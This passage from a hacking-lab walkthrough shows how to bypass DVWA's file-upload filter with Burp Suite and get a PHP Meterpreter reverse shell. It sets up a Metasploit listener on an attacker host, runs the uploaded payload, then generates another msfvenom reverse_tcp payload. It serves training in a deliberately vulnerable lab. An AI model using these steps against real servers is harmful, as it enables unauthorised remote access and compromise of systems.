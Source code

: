 	63. Switch back to the browser window and click the Upload button under the Vulnerability: File Upload section to upload the payload file.
	
	64. Switch back to the Burp Suite window. Observe that the request has been captured and displayed in the raw format under the Raw tab. In the filename field, you will see the name of the file to be uploaded as medium.php.jpg.
	
	65. Change the filename to medium.php and click the Forward button to forward the request.
	
	66. Now, turn the interception off by clicking on the Intercept is on button. The button now says Intercept is off, as shown in the screenshot. Close the window.
If a Confirm pop-up appears, click Yes.
	
	67. Switch back to the browser window. Observe a message saying that the file has been uploaded successfully, along with the upload location of the file. Note down this location.
	
	68. Remove the browser proxy set up in Step 54 by selecting the No proxy radio-button in the Connection Settings window and clicking OK. Close the tab.
	
	69. Launch a Terminal window by clicking on the MATE Terminal icon at the top of Desktop.
	70. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	71. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	72. Now, type cd and press Enter to jump to the root directory.
	
	73. In the Terminal window, type msfconsole and press Enter to launch the Metasploit framework.
	74. In msfconsole, type use exploit/multi/handler and press Enter to begin setting up the listener.
	75. You have to set up a listener so that you can establish a Meterpreter session with your victim. Follow the steps given below to set up a listener using the msf command line:
	• Type set payload php/meterpreter/reverse_tcp and press Enter
	• Type set LHOST 10.10.1.13 and press Enter
	• Type set LPORT 3333 and press Enter.
	• Type run and press Enter to start the listener
	
	76. Switch to the Mozilla Firefox window where the DVWA website is open. Open a new tab, type http://10.10.1.22:8080/dvwa/hackable/uploads/medium.php into the address bar and press Enter to execute the uploaded payload.
	
	77. Switch back to the Terminal window and observe that a Meterpreter session has successfully been established with the victim system.
	
	78. In the meterpreter command line, type sysinfo and press Enter to view the system details of the victim machine.
	
	79. Close all open windows.
	80. Launch a Terminal window by clicking on the MATE Terminal icon at the top of Desktop.
	81. In the terminal window, type sudo su and press Enter to run the programs as a root user.
	82. In the [sudo] password for attacker field, type toor as a password and press Enter.
The password that you type will not be visible.
	83. Now, type cd and press Enter to jump to the root directory.
	
	84. In the Terminal window, type msfvenom -p php/meterpreter/reverse_tcp LHOST=[IP Address of Host Machine] LPORT=2222 -f raw and press Enter.
Here, the IP address of the host machine is 10.10.1.13 (Parrot Security machine).
	85. The raw payload is generated in the terminal window. Select the payload, right-click on it, and click Copy from the context menu to copy the payload, as shown in the screenshot.
	